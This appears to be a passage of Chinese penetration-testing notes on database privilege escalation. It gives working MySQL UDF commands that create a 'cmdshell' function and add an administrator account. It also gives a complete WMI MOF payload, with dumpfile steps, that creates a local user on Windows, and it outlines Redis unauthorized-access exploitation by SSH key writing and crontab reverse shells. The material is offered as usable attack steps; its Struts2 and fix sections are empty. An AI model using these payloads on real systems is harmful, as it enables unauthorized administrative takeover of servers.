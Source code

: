 ### Mysql_UDF提权
要求: 1.目标系统是Windows(Win2000,XP,Win2003)； 2.拥有MYSQL的某个用户账号，此账号必须有对mysql的insert和delete权限以创建和抛弃函数 3.有root账号密码 导出udf: MYSQL 5.1以上版本，必须要把udf.dll文件放到MYSQL安装目录下的lib\plugin文件夹下才能创建自定义函数 可以再mysql里输入 select @@basedir show variables like ‘%plugins%’ 寻找mysql安装路径 提权:<br />使用SQL语句创建功能函数。语法：Create Function 函数名（函数名只能为下面列表中的其中之一）returns string soname ‘导出的DLL路径’；<br />create function cmdshell returns string soname ‘udf.dll’ select cmdshell(‘net user arsch arsch /add’); select cmdshell(‘net localgroup administrators arsch /add’); drop function cmdshell; <br />该目录默认是不存在的，这就需要我们使用webshell找到MYSQL的安装目录，并在安装目录下创建lib\plugin文件夹，然后将udf.dll文件导出到该目录即可。
<a name="dEzjk"></a>
### Mysql mof提权
#pragma namespace("\\\\.\\root\\subscription") instance of __EventFilter as $EventFilter { EventNamespace = "Root\\Cimv2"; Name  = "filtP2"; Query = "Select * From __InstanceModificationEvent " "Where TargetInstance Isa \"Win32_LocalTime\" " "And TargetInstance.Second = 5"; QueryLanguage = "WQL"; }; instance of ActiveScriptEventConsumer as $Consumer { Name = "consPCSV2"; ScriptingEngine = "JScript"; ScriptText = "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user waitalone waitalone.cn /add\")"; }; instance of __FilterToConsumerBinding { Consumer   = $Consumer; Filter = $EventFilter; }; <br />其中的第18行的命令，上传前请自己更改。<br />2、执行load_file及into dumpfile把文件导出到正确的位置即可。<br />select load file('c:/wmpub/nullevt.mof') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mov' <br />执行成功后，即可添加一个普通用户，然后你可以更改命令，再上传导出执行把用户提升到管理员权限，然后3389连接之就ok了。
<a name="sBgQw"></a>
# 特殊漏洞
<a name="T6d2M"></a>
## Struts2-045
<a name="dlern"></a>
## Redis未授权访问
<a name="LohiE"></a>
### 产生原因
Redis 默认情况下，会绑定在 0.0.0.0:6379，这样将会将 Redis 服务暴露到公网上，如果在没有开启认证的情况下，可以导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下可以利用 Redis 的相关方法，可以成功在 Redis 服务器上写入公钥，进而可以使用对应私钥直接登录目标服务器
<a name="bzJWb"></a>
### 利用条件和方法
条件:

1. redis服务以root账户运行
2. redis无密码或弱密码进行认证
3. redis监听在0.0.0.0公网上

方法:

- 通过 Redis 的 INFO 命令, 可以查看服务器相关的参数和敏感信息, 为攻击者的后续渗透做铺垫
- 上传SSH公钥获得SSH登录权限
- 通过crontab反弹shell
- slave主从模式利用
<a name="bRvki"></a>
### 修复
